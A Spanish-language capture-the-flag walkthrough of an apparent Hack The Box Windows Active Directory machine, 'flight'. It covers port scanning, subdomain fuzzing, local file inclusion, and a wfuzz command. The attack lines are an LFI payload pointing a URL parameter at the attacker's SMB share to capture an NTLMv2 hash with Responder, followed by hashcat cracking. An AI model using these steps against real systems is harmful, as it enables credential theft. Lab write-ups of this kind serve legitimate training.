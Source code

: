 #windows #ActiveDirectory #hard
### Ping

```python
ping -c 1 10.10.11.187
PING 10.10.11.187 (10.10.11.187) 56(84) bytes of data.
64 bytes from 10.10.11.187: icmp_seq=1 ttl=127 time=155 ms

--- 10.10.11.187 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 155.284/155.284/155.284/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 11:22 EDT
Nmap scan report for 10.10.11.187
Host is up (0.16s latency).
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: g0 Aviation
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-10 22:22:50Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-10T22:23:44
|_  start_date: N/A
|_clock-skew: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.63 seconds
```

### Enumeración del puerto 80 (HTTP)
por el momento no tenemos nada interesante en la pagina web así que seguiremos enumerando.
![[Pasted image 20240810113207.png]]

### Fuzzing con wfuzz
haciendo una enumeración de subdominios logramos encontrar uno llamado `school`
![[Pasted image 20240810114633.png]]

`school`
parece que en la pagina web de `school` tampoco obtenemos nada interesante.
![[Pasted image 20240810114823.png]]

### Enumeración del puerto 53 (DNS)
en esta enumeración nos aseguramos que no existe otro nombre de dominio y también obtenemos la dirección ip V6
![[Pasted image 20240810115616.png]]

### dirsearch
usando `dirsearh` encontramos un `index.php` el cual esta haciendo referencia a una variable `$DATA` esto nos da una pista así que vamos a intentar un `LFI`
![[Pasted image 20240810122957.png]]

`LFI`
al realizar un `LFI` nos reporta que esta actividad es sospechosa y que por ende a sido bloqueada. esto es una buena señal ya que si podemos identificar como se esta realizando este bloqueo podemos intentar bypasearlo
![[Pasted image 20240810123158.png]]

`LFI`
probamos con las rutas absolutas y funciono. parece que esta bloqueando el parámetro `../`
![[Pasted image 20240810123844.png]]

### Fuzzing con wfuzz 
con estos parámetros vamos a realizar un fuzzing con una lista de palabras especificas para Windows.

```python
❯ wfuzz -f ./fuzz-output.csv,csv -c -w file_inclusion_windows.txt --hw 89,95 "http://school.flight.htb/index.php?view=FUZZ"
```

![[Pasted image 20240810124631.png]]

### responder
vamos a iniciar el responder para posteriormente hacer una petición e intentar envenenar el trafico y poder capturar un `hash NTLMv2` 
![[Pasted image 20240810125124.png]]

`hash NTLMv2`
ahora solo vamos a forzar la autenticación contra los recursos compartidos de nuestra maquina atacante navegando a esta dirección `http://school.flight.htb/index.php?view=//10.10.14.8/share` de esta manera la maquina se autentica contra nosotros y podemos capturar el `hash NTLMv2`
![[Pasted image 20240810125817.png]]

### hashcat

![[Pasted image 20240810130537.png]]

`PASS`
después de esperar un rato vemos que hashcat ha podido identificar la contraseña del usuario `svc_apache`
![[Pasted image 20240810131709.png]]

### Validación de credenciales
podemos validar las credenciales que hemos conseguido y parecen ser validas para enumerar los recursos smb pero no podemos conectarnos por `evil-winrm` esto es normal ya que las cuentas de servicios como en este caso no cuentan con esta opción 
![[Pasted image 20240810132329.png]]





### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
